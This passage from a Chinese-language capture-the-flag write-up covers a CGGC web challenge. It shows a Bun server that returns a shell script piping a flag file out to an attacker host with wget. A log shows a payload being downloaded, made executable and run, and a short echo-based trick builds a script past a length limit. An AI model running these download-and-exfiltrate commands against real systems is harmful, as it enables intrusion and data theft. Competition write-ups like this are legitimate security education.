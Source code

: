```typescript
    return new Response(`#!/bin/sh\nwget ${decimalIP}/$(cat /flag*)`)
  },
})

main()
```

```bash
sudo bun index.ts
Got message: /
# 目標跟收 Flag 的機器要攻擊腳本
Executed shell command: wget -O /z 2130706433. Response: 500
Executed shell command: chmod +x /z. Response: 500
Got message: /CGGC{breakpoint_is_a_biiiig_gadget_oj237rpwd3i2}
# 出了點問題，收 Flag 機器沒辦法連上 VPN，這是用 VPN 內的機器打，VPN 外的機器收 Flag
Executed shell command: /z. Response: 500
```

由於我們沒有下指令離開 pdb，pdb 發現沒指令了會崩潰，HTTP Reponse 500 正常。

這組 Payload 的 Prefix 50 字元，Suffix 6 字元，理論上能縮短成：

```bash
# 對於每一個 Shell Script 要用到的字元
echo c\\>>z
# End
chmod +x z
./z
```

用這個方法可以達到 67 個字元。

First Blood 🩸

預期解是用 `request.query_string` 放 Payload 來繞過 Filter，並且與傳統 SSIT 一樣用 `''.__class__`　方式取得 Global Object 並 RCE。

## 後記

![scoreborad](scoreboard.webp)

我們（又）在比賽前期衝到第一名，後面大神們開打排名慢慢掉下來，一題都解不開了。
